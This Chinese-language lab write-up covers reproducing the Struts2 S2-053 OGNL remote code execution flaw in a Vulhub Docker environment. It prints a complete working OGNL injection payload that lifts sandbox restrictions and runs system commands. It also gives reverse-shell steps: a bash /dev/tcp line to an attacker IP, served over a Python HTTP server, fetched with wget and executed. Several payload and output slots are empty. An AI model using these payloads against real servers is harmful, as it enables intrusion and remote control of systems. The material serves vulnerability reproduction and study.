


# Struts2 S2-053 远程代码执行漏洞

## 漏洞描述

漏洞详情:

- http://struts.apache.org/docs/s2-053.html
- https://mp.weixin.qq.com/s?__biz=MzU0NTI4MDQwMQ==&mid=2247483663&idx=1&sn=6304e1469f23c33728ab5c73692b675e

## 漏洞影响

影响版本: Struts 2.0.1 - Struts 2.3.33, Struts 2.5 - Struts 2.5.10

## 环境搭建

Vulhub执行以下命令启动s2-053测试环境：

```
docker-compose build
docker-compose up -d
```

环境运行后，访问`http://your-ip:8080/hello.action`即可看到一个提交页面。

## 漏洞复现

Struts2在使用Freemarker模板引擎的时候，同时允许解析OGNL表达式。导致用户输入的数据本身不会被OGNL解析，但由于被Freemarker解析一次后变成离开一个表达式，被OGNL解析第二次，导致任意命令执行漏洞。

输入如下Payload即可成功执行命令（注意Payload末尾有一个换行）：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

```



### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为：



执行shell.sh文件的命令为：

```
bash shell.sh
```

执行shell.sh文件的Payload为：


成功接收反弹shell：

